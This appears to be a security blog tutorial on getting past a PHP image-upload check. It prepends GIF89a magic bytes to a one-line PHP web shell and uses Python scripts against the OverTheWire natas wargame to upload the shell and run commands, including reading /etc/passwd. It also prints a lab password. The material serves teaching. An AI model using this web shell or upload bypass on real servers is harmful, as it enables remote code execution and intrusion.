 ```yaml
---
title : "[EN] Bypassing File Upload Filter Using Magic Bytes"
search : true

---
```


Hello There

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/fileupload/kenobi.jpg)

 
In this blog post i will try to explain a technique to bypass file upload filter.There are variety of file validation techniques on server side code. For example you could validate a file's type by checking file's extension (which is a bad idea btw) or you could validate file type by checking content-type header (which is still a bad idea because it can be manipulated by user.) or you could use a function to validate the file for you, for example in php there is a function called "exif_imagetype()" that you could pass a file to it as an argument, and the function returns the result if it is a image file or not. This type of validation can be implemented like this : If file is an image, function returns the file type and proceed with uploading the file, if file is not an image, function returns false and cancel the operation. 
This function does this check by looking at magic bytes (or signature bytes). Every file has a diffrent magic byte and we can deceive validation techniques like this by changing our payload's magic bytes. For further information about magic byte: [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)



In linux there is a binary called "file" which is a lot like "exif_imagetype()" function, it checks magic bytes, and print out the file type, so let's run this binary against our php script.

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/fileupload/file_command.png)

Default php script:

{% highlight php linenos %}
<?php
    system($_GET['c']);
?>
{% endhighlight %}


so let's see what happens if we add "GIF89a" magic bytes (in this case strings) at the top of our code.

{% highlight php linenos %}
GIF89a
<?php
    system($_GET['c']);
?>
{% endhighlight %}

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/fileupload/file_command2.png)

the result is our php script now seen as .gif image file. 

so let's upload our payload to a compromised server which expects an image file (in this case i will be using overthewire natas13)

I will be using python scripts to upload our payload and execute arbitrary command.
{% highlight python linenos %}
import re
import requests

username = 'natas12'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

url = 'http://%s.natas.labs.overthewire.org/' % username

session = requests.Session()
response = session.post(url,files={'uploadedfile': open('rev.php','rb')} ,data = {"filename":"rev.php","MAX_FILE_SIZE":"1000"}, auth = (username,password))
content = response.text
print(content)

{% endhighlight %}


Executing commands.
{% highlight python linenos %}
import re
import requests

username = 'natas12'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

url = 'http://%s.natas.labs.overthewire.org/' % username

session = requests.Session()
response = session.get(url + 'upload/qearbyq499.php?c=cat /etc/passwd',auth=(username,password))
content = response.text
print(content)
{% endhighlight %}

("qearbyq499.php" string is random generated by the server before uploading.)

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/fileupload/output.png)

and just like that we got rce !




